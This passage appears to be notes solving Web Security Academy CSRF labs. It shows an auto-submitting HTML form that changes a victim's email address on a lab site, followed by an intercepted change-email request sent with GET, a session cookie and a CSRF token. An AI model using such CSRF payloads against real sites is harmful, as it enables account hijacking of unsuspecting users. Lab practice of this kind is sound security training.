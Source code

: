 
Solution:

Head:

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
```

Body:

```
<html>
    <body>
        <form action="https://0ae9008e03dde479c09804b60053005f.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

### CSRF where token validation depends on request method

Intercepted Request:

```
GET /my-account/change-email?email=zxczxczxczxc@cxcxc.com HTTP/1.1
Host: 0aab00d304b08972c0739722000d00b7.web-security-academy.net
Cookie: session=fdiSltLis4TGC0mhCSlsa3bOFS4PPvD3
Content-Length: 63
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0aab00d304b08972c0739722000d00b7.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aab00d304b08972c0739722000d00b7.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

email=asdzxc%40zxczxc.com&csrf=FSA7tyqQf4QHBQFqQUEMPqqQRkFyq5Tf
```

